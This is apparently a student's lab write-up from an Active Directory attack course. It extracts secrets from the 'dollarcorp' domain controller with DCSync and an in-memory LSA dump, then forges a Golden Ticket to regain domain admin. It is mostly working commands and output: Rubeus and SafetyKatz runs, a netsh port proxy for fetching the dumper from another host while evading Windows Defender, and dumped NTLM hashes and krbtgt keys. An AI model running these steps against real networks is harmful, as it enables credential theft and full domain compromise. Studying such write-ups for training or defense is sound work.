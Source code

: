 # **i)Extract secrets from the domain controller of dollarcorp.ii)Using the secrets of krbtgt account, create a Golden ticket.iii)Use the Golden ticket to (once again) get domain admin privileges from a machine.**

i)
Get the shell of domain admin here svc using the overpass the key attack
```C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt```

There are two ways of extracting creadentials from DC
1]DC Sync attack
2]lsass credential extraction

First we move on with DC Sync,, for doing dcsync we need priv of da,ea,domaincontrollers here we have DA priv


so in the svc admin shell run dcsync:```C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"```


O/P:
![alt text](image-44.png)
we get both ntlm and aes of krbtgt account,,we can use it to do ticket attacks

Second extracting the credentials from the memory of the DC:


for that we need to download and run safetykatz in memory of DC so copy loader to dc: ```echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y```


connect to dc as svc admin:```winrs -r:dcorp-dc cmd```


set portforwarding in dc to download safetykatz form remote location without detected by windows defender
command:```>netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.219```


Start to extract creds from memory of DC
command:```C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-lsa /patch" "exit"```


O\P:only contains the ntlm hashes if we want aes then do dc sync
mimikatz(commandline) # lsadump::evasive-lsa /patch
Domain : dcorp / S-1-5-21-719815819-3726368948-3917688648

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : af0686cc0ca8f04df42210c9ac980760

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 4e9815869d2090ccfca61c1fe0d23986

RID  : 00000459 (1113)
User : sqladmin
LM   :
NTLM : 07e8be316e3da9a042a9cb681df19bf5

RID  : 0000045a (1114)
User : websvc
LM   :
NTLM : cc098f204c5887eaa8253e7c2749156f

RID  : 0000045b (1115)
User : srvadmin
LM   :
NTLM : a98e18228819e8eec3dfa33cb68b0728

RID  : 0000045d (1117)
User : appadmin
LM   :
NTLM : d549831a955fee51a43c83efb3928fa7

RID  : 0000045e (1118)
User : svcadmin
LM   :
NTLM : b38ff50264b74508085d82c69794a4d8

RID  : 0000045f (1119)
User : testda
LM   :
NTLM : a16452f790729fa34e8f3a08f234a82c

RID  : 00000460 (1120)
User : mgmtadmin
LM   :
NTLM : 95e2cd7ff77379e34c6e46265e75d754

RID  : 00000461 (1121)
User : ciadmin
LM   :
NTLM : e08253add90dccf1a208523d02998c3d

RID  : 00000462 (1122)
User : sql1admin
LM   :
NTLM : e999ae4bd06932620a1e78d2112138c6

RID  : 00001055 (4181)
User : studentadmin
LM   :
NTLM : d1254f303421d3cdbdc4c73a5bce0201

RID  : 000042cd (17101)
User : devopsadmin
LM   :
NTLM : 63abbf0737c59a3142175b1665cd51ee


RID  : 000003e8 (1000)
User : DCORP-DC$
LM   :
NTLM : f37197322251094aca100d3a0afbd3ef

RID  : 00000451 (1105)
User : DCORP-ADMINSRV$
LM   :
NTLM : b5f451985fd34d58d5120816d31b5565

RID  : 00000452 (1106)
User : DCORP-APPSRV$
LM   :
NTLM : b4cb7bf8b93c78b8051c7906bb054dc5

RID  : 00000453 (1107)
User : DCORP-CI$
LM   :
NTLM : b1cbc9af67737527f94a9455edd13347

RID  : 00000454 (1108)
User : DCORP-MGMT$
LM   :
NTLM : 0878da540f45b31b974f73312c18e754

RID  : 00000455 (1109)
User : DCORP-MSSQL$
LM   :
NTLM : b205f1ca05bedace801893d6aa5aca27

RID  : 00000456 (1110)
User : DCORP-SQL1$
LM   :
NTLM : 3686dfb420dc0f9635e70c6ca5875b49


RID  : 0000044f (1103)
User : mcorp$
LM   :
NTLM : 84dac7048c7c9fdd79911a62e5620e81

RID  : 00000450 (1104)
User : US$
LM   :
NTLM : ba8bebb8297a374ae2e531d16dc90298

RID  : 00000458 (1112)
User : ecorp$
LM   :
NTLM : c70bd4a427e9decd8c9135299c63226e

ii) and iii)creating golden ticket attack and gettig domain admin priv
using the aes key of krbtgt account obtained by dcsync atttack we can forge a golden ticket
run the below command in student vm shell without invishell


command:```C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd```


O/P:
C:\AD\Tools\Loader.exe Evasive-Golden /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:34:22 AM" /logoncount:1087 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD

in the above output generated add -path C:\AD\Tools\Rubeus.exe -args in the begining after Loader.exe and in the end add /ptt to inject forged ticket in current session.
after adding the command should look like this:
```C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args Evasive-Golden /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:34:22 AM" /logoncount:1087 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt```
run the command so that the forged ticket will be imported.


After that login to dc as Administrator using the forged golden ticket
```winrs -r:dcorp-dc cmd```


then check username and computername
![alt text](image-45.png)




